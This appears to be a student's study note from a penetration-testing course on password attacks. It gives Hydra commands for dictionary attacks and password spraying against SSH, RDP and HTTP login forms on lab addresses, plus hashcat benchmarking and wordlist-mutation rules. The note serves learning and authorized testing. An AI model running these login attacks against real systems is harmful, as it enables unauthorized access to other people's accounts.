 [[Notes/Password Attacks|Password Attacks]]

# Attacking Network Service Logins
## SSH and RDP logins
### THC-Hydra
TAGS: #hydra #password-cracking #dictionary-attack #ssh #rdp
```shell
# unzip if it wasn't already
sudo gzip -d rockyou.txt.gz

# simple hydra command
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```
#### Password Spraying
```shell
# password sparying with a list of usernames
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```
## HTTP POST login forms
```shell
# put things in place after we have intercepted with burp (could utilize burp's intruder?)
# hydra -l ^username^ -P ^password list path^ ^host^ http-post-form "location:var1=^username^:var2=^PASS^:^login_failed_text^"
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

# Password Cracking
```shell
echo -n "secret" | sha256sum #-n for eliminating new line

# wordcount
echo -n "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789" | wc -c

# hashcat benchmaerk
hashcat -b
# OR
hashcat.exe -b

# calculate
(($word_count^$password_length)/$hash_rate*100000) = $seconds
```

## Wordlist mutation
USEFUL LINK : https://hashcat.net/wiki/doku.php?id=rule_based_attack
```shell
# remove lines start with "1", -i instantanious /^1 start with "1", /d delete
sed -i '/^1/d' wordlist.txt

# rule file to append "1" to the end of each line
echo \$1 > rule.rule

# hashcat in debugging mode with -r for rule sets
hashcat -r demo.rule --stdout wordlist.txt

# capitalize the first letter and add "1" at the end of line
cat rule1.rule
$1 c

# same as above, but it will do the jobs separately
cat rule2.rule
$1
c

# premade rule files for hashcat
ls -la /usr/share/hashcat/rules/

```

# Working with Hashes

